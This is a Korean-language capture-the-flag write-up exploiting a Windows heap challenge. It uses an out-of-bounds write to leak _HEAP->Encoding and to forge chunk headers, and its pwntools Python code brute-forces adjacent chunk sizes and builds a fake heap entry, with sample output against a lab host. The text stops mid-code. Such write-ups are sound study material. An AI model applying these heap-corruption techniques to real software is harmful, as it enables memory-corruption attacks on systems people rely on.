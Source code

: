 ` 1. Allocate buffer for File`로 할당한 Heap chunk들은 LFH로 관리되지 않기 때문에, **_HEAP->Encoding**만 알고 있다면 OOB write 취약점을 사용해 header를 조작할 수 있습니다. 

이제 서로 인접한 heap chunk 2개를 할당해 header를 조작해줘야 하는데, 정확히 어떤 크기로 할당해줘야 서로 인접하게 할당되는지 알 수 없어 이부분도 header가 leak되는 걸 기준삼아 아래와 같이 Brute-Force해서 찾았습니다.

```python
# skip for brevity...

# this takes too many times
# modify the Brute-Force range to use your instinct
for i in range(0x80, 0x2000, 8):
	log.info("i = 0x%04x" % i)
	for j in range(0x80, 0x2000, 8*8):
		log.info("j = 0x%04x" % j)
		alloc(1, SIZE)
		alloc(2, i)
		edit(2, "A" * i)
		for k in range(8):
			tmp_sz = j + (8*k)
			alloc(3+k, tmp_sz)
			leak = show(2)[i:]
			if leak != "":
				log.info("chunk1 size = 0x%x, chunk2 size = 0x%x" % (i, tmp_sz))
				break

		context.log_level = "error"
		sla("Your choice: ", str(6))
		hi.close()
		hi = remote(HOST, PORT)
		sla = hi.sendlineafter
		context.log_level = "info"

'''
$ python ex.py
[+] Opening connection to 192.168.0.18 on port 6677: Done
[*] i = 0x0080
[*] j = 0x0080
[*] j = 0x00C0
[*] j = 0x0100
[*] j = 0x0140
....
[*] chunk1 size = 0x268, chunk2 size = 0x200
....
'''
```

이제 어떻게 크기를 할당해야 서로 인접한 chunk를 할당할 수 있는지 알았으니, `5. LazyFileHandler`로 **magic.txt**에서 읽어들인 값을 채워넣어 중간에 null-byte가 없게 한 뒤, OOB write 취약점을 사용해 header를 조작할 수 있습니다.

```python
# skip for brevity...

alloc(1, SIZE)
edit(1, "A" * SIZE)
heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
log.info("_HEAP->Encoding = 0x%016x" % heap_encod)
alloc(2, 0x268)
alloc(3, 0x200)

fake_entry = 0x10000027c80101c8 ^ heap_encod
'''
0x10000027c80101c8
   +0x008 Size             : 0x1c8
   +0x00a Flags            : 0x1 ''
   +0x00b SmallTagIndex    : 0xc8 ''
```